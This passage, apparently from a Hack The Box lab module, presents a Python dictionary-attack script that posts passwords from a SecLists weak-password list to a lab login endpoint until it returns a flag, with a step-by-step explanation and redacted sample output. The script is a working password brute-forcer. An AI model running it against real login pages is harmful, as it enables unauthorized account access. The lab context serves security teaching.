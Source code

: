 Code: python

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script orchestrates the dictionary attack. It performs the following steps:

1. `Downloads the Wordlist`: First, the script fetches a wordlist of 500 commonly used (and therefore weak) passwords from SecLists using the `requests` library.
2. `Iterates and Submits Passwords`: It then iterates through each password in the downloaded wordlist. For each password, it sends a POST request to the Flask application's `/dictionary` endpoint, including the password in the request's form data.
3. `Analyzes Responses`: The script checks the response status code after each request. If it's 200 (OK), it examines the response content further. If the response contains the "flag" key, it signifies a successful login. The script then prints the discovered password and the captured flag.
4. `Continues or Terminates`: If the response doesn't indicate success, the script proceeds to the next password in the wordlist. This process continues until the correct password is found or the entire wordlist is exhausted.

Dictionary Attacks

```shell-session
frank-106@htb[/htb]$ python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
```